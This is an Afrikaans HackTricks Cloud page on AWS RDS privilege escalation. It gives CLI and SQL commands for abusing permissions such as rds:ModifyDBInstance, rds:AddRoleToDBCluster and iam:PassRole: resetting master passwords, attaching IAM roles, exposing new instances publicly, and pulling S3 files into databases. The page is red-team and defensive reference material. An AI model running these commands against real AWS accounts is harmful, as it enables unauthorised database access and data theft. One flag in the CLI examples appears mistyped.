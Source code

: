 # AWS - RDS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relasionele Databasisdiens

Vir meer inligting oor RDS, kyk:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller **die wagwoord van die meester gebruiker verander**, en die aanmelding binne die databasis:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Jy sal in staat moet wees om die **databasis te kontak** (hulle is gewoonlik net vanaf binne-netwerke toeganklik).
{% endhint %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**dokumentasie**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming aan die DB-instantie koppel.

### Misbruik RDS Rol IAM toestemmings

#### Postgresql (Aurora)

{% hint style="success" %}
As jy **`SELECT datname FROM pg_database;`** uitvoer en 'n databasis met die naam **`rdsadmin`** vind, weet jy jy is binne 'n **AWS postgresql databasis**.
{% endhint %}

Eerstens kan jy kyk of hierdie databasis gebruik is om toegang tot enige ander AWS-diens te verkry. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:
```sql
SELECT * FROM pg_extension;
```
As jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **'n soort toegang oor S3** het (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy daar sien of die **kluster enige IAM Rol aangeheg het** in die veld **`AssociatedRoles`**. As daar enige is, kan jy aanneem dat die databasis **voorberei was om toegang tot ander AWS dienste** te hê. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry) kan jy **raai** watter ekstra toegang die databasis het.

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
As jy **rauwe AWS geloofsbriewe** gehad het, kon jy dit ook gebruik om toegang tot S3-data te verkry met:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **hoef nie enige parameter groep veranderlike te verander** om toegang tot S3 te verkry nie.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** uitvoer en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem jy is binne 'n **AWS RDS mysql db**.
{% endhint %}

Binne die mysql voer **`show variables;`** uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, waardes het, kan jy aanneem die databasis is voorberei om toegang tot S3 data te verkry.

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die kluster enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS dienste beteken).

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instansie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instansie te wysig.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.\
Let daarop dat sommige DB's addisionele konfigurasies vereis soos Mysql, wat die rol ARN in die parameter groepe moet spesifiseer.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instantie binne 'n kluster** wat reeds bestaan en 'n **IAM rol** aangeheg het, skep. Hy sal nie in staat wees om die meester gebruikerswagwoord te verander nie, maar hy mag in staat wees om die nuwe databasisinstantie aan die internet bloot te stel:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Toets
{% endhint %}

'n Aanvaller met die toestemmings `rds:CreateDBInstance` en `iam:PassRole` kan **'n nuwe RDS-instantie met 'n spesifieke rol aangeheg skep**. Die aanvaller kan dan moontlik **toegang tot sensitiewe data** verkry of die data binne die instantie wysig.

{% hint style="warning" %}
Sommige vereistes van die rol/instantie-profiel om aan te heg (van [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Die profiel moet in jou rekening bestaan.
* Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
* Die naam van die instantie-profiel en die geassosieerde IAM-rolnaam moet begin met die voorvoegsel `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die regte `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n spesifieke rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

{% hint style="warning" %}
Die DB-instantie moet buite 'n kluster wees vir dit
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instansie.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
